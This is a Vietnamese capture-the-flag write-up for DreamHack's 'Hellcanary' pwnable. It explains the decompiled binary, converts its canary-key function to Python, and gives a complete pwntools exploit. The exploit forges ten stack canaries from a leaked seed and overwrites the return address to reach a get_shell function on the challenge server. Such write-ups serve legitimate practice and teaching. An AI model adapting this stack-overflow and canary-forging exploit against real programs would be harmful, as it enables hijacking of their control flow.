

# Hellcanary---Write-up-----DreamHack
Hướng dẫn cách giải bài Hellcanary cho anh em mới chơi pwnable.

**Author:** Nguyễn Cao Nhân aka Nhân Sigma

**Category:** Binary Exploitation

**Date:** 9/12/2025

## 1. Mục tiêu cần làm
- Đọc code để hiểu code hoạt động như thế nào

## 2. Cách thực thi
Đầu tiên hãy đọc code dịch ngược của bài

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[1024]; // [rsp+0h] [rbp-430h] BYREF
  __int64 v5; // [rsp+400h] [rbp-30h]
  __int64 v6; // [rsp+408h] [rbp-28h]
  int fd; // [rsp+410h] [rbp-20h]
  unsigned int j; // [rsp+414h] [rbp-1Ch]
  __int64 *v9; // [rsp+418h] [rbp-18h]
  unsigned int i; // [rsp+424h] [rbp-Ch]
  char *v11; // [rsp+428h] [rbp-8h]

  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  memset(s, 0, sizeof(s));
  fd = open("/dev/urandom", 0);
  if ( fd < 0 )
    exit(1);
  read(fd, &seed, 4uLL);
  close(fd);
  printf("Gatekeeper Seed: 0x%x\n", (unsigned int)seed);
  puts("The path is jagged. Watch your step.");
  v11 = s;
  for ( i = 0; (int)i <= 9; ++i )
  {
    v11 += pad_sizes[i];
    *(_QWORD *)v11 = calculate_key((unsigned int)seed, i);
    v11 += 8;
  }
  puts("Verify in 3 seconds...");
  alarm(3u);
  read(0, s, 1536uLL);
  v9 = (__int64 *)s;
  for ( j = 0; (int)j <= 9; ++j )
  {
    v9 = (__int64 *)((char *)v9 + pad_sizes[j]);
    v6 = *v9;
    v5 = calculate_key((unsigned int)seed, j);
    if ( v6 != v5 )
    {
      printf("canary is broken!");
      exit(0);
    }
    ++v9;
  }
  printf("canary is vaild!");
  return 0;
}
```

Cách hoạt động của code này là nó sẽ tạo ra 10 cái canary ngẫu nhiên và nhét vào các vị trí được ghi sẵn ở `pad_size` vào `s`. Ví dụ `pad_size` gồm { 1, 4, 6... } thì tại vị trí `s[1]`, `s[4]`, `s[6]`,... thì sẽ có các canary ngẫu nhiên được thêm vào. Và nó sẽ có 1 hàm kiểm tra nên chúng ta không thể nào mà chèn đại vào `s` được.

Giờ làm sao tìm được các vị trí nó sẽ chèn vào ? Các bạn hãy bấm chuột 2 lần vào `pad_size` thì nó sẽ ra như vậy.



Nhờ con AI dịch sang số nguyên là ta sẽ có 1 chuỗi như vậy `pad_sizes = [32, 56, 16, 64, 24, 40, 48, 16, 32, 56]`. Vậy là có các vị trí của các canary rồi, giờ tiếp theo là tại vị trí đó thì ta nên chèn canary gì để không bị sai lệch ?

Bài này cũng có 1 hàm để tính toán luôn đó là hàm `calculate_key`.

```C
__int64 __fastcall calculate_key(unsigned int a1, int a2)
{
  __int64 result; // rax

  switch ( a2 )
  {
    case 0:
      result = (a2 & (-3735928560LL - a1) | (a1 + 3735928559LL) & ~a2) - 4919;
      break;
    case 1:
      result = a1 ^ (a2 + (a1 ^ 0xCAFEBABELL));
      break;
    case 2:
      result = ((8LL * a1) | 0xFACEFEEDLL) - a2;
      break;
    case 3:
      result = ((a1 * (unsigned __int64)a1) ^ 0x43214321) + a2;
      break;
    case 4:
      result = (a1 - a2) & 0x12345678 | (a2 - (unsigned __int64)a1 - 1) & 0xFFFFFFFFEDCBA987LL;
      break;
    case 5:
      result = ((a2 << 8) & ~(unsigned __int64)a1 | a1 & (unsigned __int64)~(a2 << 8)) + 2748;
      break;
    case 6:
      result = __ROR8__(a1, 4) ^ 0xBEEFLL;
      break;
    case 7:
      result = a2 & ~(123LL * a1) | (123LL * a1) & ~a2;
      break;
    case 8:
      result = ~a1 + (__int64)a2;
      break;
    case 9:
      result = ((a2 + (unsigned __int64)a1) ^ 0x77777777) - a1;
      break;
    default:
      result = 0LL;
      break;
  }
  return result;
}
```

Đây là 1 hàm tính toán cực kì phức tạp nhưng ta có thể nhờ AI chuyển nó sang từ code C thành code Python được và nó sẽ như vậy.

```Python
def calculate_key(seed, idx):
    a1 = seed & 0xFFFFFFFF
    a2 = idx
    res = 0
    
    if a2 == 0:
        res = (a2 & (-3735928560 - a1) | (a1 + 3735928559) & ~a2) - 4919
    elif a2 == 1:
        res = a1 ^ (a2 + (a1 ^ 0xCAFEBABE))
    elif a2 == 2:
        res = ((8 * a1) | 0xFACEFEED) - a2
    elif a2 == 3:
        res = ((a1 * a1) ^ 0x43214321) + a2
    elif a2 == 4:
        res = ((a1 - a2) & 0x12345678) | ((a2 - a1 - 1) & 0xFFFFFFFFEDCBA987)
    elif a2 == 5:
        res = ((a2 << 8) ^ a1) + 2748
    elif a2 == 6:
        res = ror64(a1, 4) ^ 0xBEEF
    elif a2 == 7:
        res = a2 ^ (123 * a1)
    elif a2 == 8:
        res = ((~a1) & 0xFFFFFFFF) + a2
    elif a2 == 9:
        res = ((a2 + a1) ^ 0x77777777) - a1
        
    return res & 0xFFFFFFFFFFFFFFFF
```

Vậy là chúng ta đã có được vị trí các canary + biết được nên chèn gì vào đó. Giờ thì việc còn lại là ghi đè vào saved RIP bằng hàm `get_shell` của chương trình là xong.

```Python
payload = b""
for i in range(10):
    payload += b"A" * pad_sizes[i]
    key = calculate_key(seed, i)
    payload += p64(key)

# Tính toán padding cuối
current_len = len(payload)
target_len = 1080 # 1072 buffer + 8 saved rbp
padding_needed = target_len - current_len

payload += b"B" * padding_needed

# Ghi đè Return Address bằng ret và get_shell để tránh bị lỗi stack alignment
ret = 0x0000000000401016
payload += p64(ret)
payload += p64(get_shell_addr)
```

Thế là xong, bài này thực ra cũng không có gì quá khó, chỉ cần tìm được `pad_size` và nhờ AI dịch dùm hàm `calculate_key` từ code C sang code Python là xong. Khá dễ nên hãy cho mình 1 star để có động lực viết write up tiếp nha 🐧.


```Python
from pwn import *

# p = process('./hellcanary')
p = remote('host8.dreamhack.games', 10697)

get_shell_addr = 0x4011b6

pad_sizes = [32, 56, 16, 64, 24, 40, 48, 16, 32, 56]

# =========================================================
# HÀM TÍNH TOÁN KEY
# =========================================================
def ror64(val, shift):
    return ((val >> shift) | (val << (64 - shift))) & 0xFFFFFFFFFFFFFFFF

def calculate_key(seed, idx):
    a1 = seed & 0xFFFFFFFF
    a2 = idx
    res = 0
    
    if a2 == 0:
        res = (a2 & (-3735928560 - a1) | (a1 + 3735928559) & ~a2) - 4919
    elif a2 == 1:
        res = a1 ^ (a2 + (a1 ^ 0xCAFEBABE))
    elif a2 == 2:
        res = ((8 * a1) | 0xFACEFEED) - a2
    elif a2 == 3:
        res = ((a1 * a1) ^ 0x43214321) + a2
    elif a2 == 4:
        res = ((a1 - a2) & 0x12345678) | ((a2 - a1 - 1) & 0xFFFFFFFFEDCBA987)
    elif a2 == 5:
        res = ((a2 << 8) ^ a1) + 2748
    elif a2 == 6:
        res = ror64(a1, 4) ^ 0xBEEF
    elif a2 == 7:
        res = a2 ^ (123 * a1)
    elif a2 == 8:
        res = ((~a1) & 0xFFFFFFFF) + a2
    elif a2 == 9:
        res = ((a2 + a1) ^ 0x77777777) - a1
        
    return res & 0xFFFFFFFFFFFFFFFF


p.recvuntil(b"Gatekeeper Seed: ")
seed = int(p.recvline().strip(), 16)
log.success(f"Leaked Seed: {hex(seed)}")

payload = b""
for i in range(10):
    payload += b"A" * pad_sizes[i]
    key = calculate_key(seed, i)
    payload += p64(key)

current_len = len(payload)
target_len = 1080 # 1072 buffer + 8 saved rbp
padding_needed = target_len - current_len

payload += b"B" * padding_needed

# Ghi đè Return Address bằng ret và get_shell để tránh bị lỗi stack alignment
ret = 0x0000000000401016
payload += p64(ret)
payload += p64(get_shell_addr)

log.info("Sending payload...")
p.sendlineafter(b"Verify in 3 seconds...", payload)
p.interactive()
```

À quên dặn các bạn thì bài này nó chỉ cho các bạn 3 giây để `cat flag` thôi nha nên có gì nhanh tay lên dùm không là phải chạy lại đó.

```C
puts("Verify in 3 seconds...");
  alarm(3u);
```
